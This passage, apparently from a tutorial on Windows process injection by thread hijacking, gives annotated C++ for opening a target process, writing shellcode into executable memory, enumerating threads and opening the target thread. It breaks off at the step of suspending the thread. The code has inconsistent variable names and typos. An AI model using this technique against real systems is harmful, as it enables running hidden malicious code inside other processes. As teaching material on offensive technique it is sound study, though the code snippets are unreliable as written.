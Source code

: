 Thie first three steps outlined in thsi technique following the same common steps as normal process injection. These will not be explained, instead, documented source code below:
```cpp
HANDLE hProcess = OpenProcess(
	PROCESS_ALL_ACCESS, // Requests all possible access rights
	FALSE, // Child processes do not inheret parent process handle
	processId // Stored process ID
);
PVOIF remoteBuffer = VirtualAllocEx(
	hProcess, // Opened target process
	NULL, 
	sizeof shellcode, // Region size of memory allocation
	(MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
WriteProcessMemory(
	processHandle, // Opened target process
	remoteBuffer, // Allocated memory region
	shellcode, // Data to write
	sizeof shellcode, // byte size of data
	NULL
);
```


Once the initial steps are out of the way and our shellcode is written to memory we can move to step four. At step four, we need to begin the process of hijacking the process thread by identifying the thread ID. To identify the thread ID we need to use a trio of Windows API calls: `CreateToolhelp32Snapshot()`, `Thread32First()`, and `Thread32Next()`. These API calls will collectively loop through a snapshot of a process and extend capabilities to enumerate process information.
```cpp
THREADENTRY32 threadEntry;

HANDLE hSnapshot = CreateToolhelp32Snapshot( // Snapshot the specificed process
	TH32CS_SNAPTHREAD, // Include all processes residing on the system
	0 // Indicates the current process
);
Thread32First( // Obtains the first thread in the snapshot
	hSnapshot, // Handle of the snapshot
	&threadEntry // Pointer to the THREADENTRY32 structure
);

while (Thread32Next( // Obtains the next thread in the snapshot
	snapshot, // Handle of the snapshot
	&threadEntry // Pointer to the THREADENTRY32 structure
)) {
```

At step five, we have gathered all the required information in the structure pointer and can open the target thread. To open the thread we will use `OpenThread` with the `THREADENTRY32` structure pointer.

```cpp
if (threadEntry.th32OwnerProcessID == processID) // Verifies both parent process ID's match
		{
			HANDLE hThread = OpenThread(
				THREAD_ALL_ACCESS, // Requests all possible access rights
				FALSE, // Child threads do not inheret parent thread handle
				threadEntry.th32ThreadID // Reads the thread ID from the THREADENTRY32 structure pointer
			);
			break;
		}
```
At step six, we must suspend the opened target thread. To suspend the thread we can use `SuspendThread`.
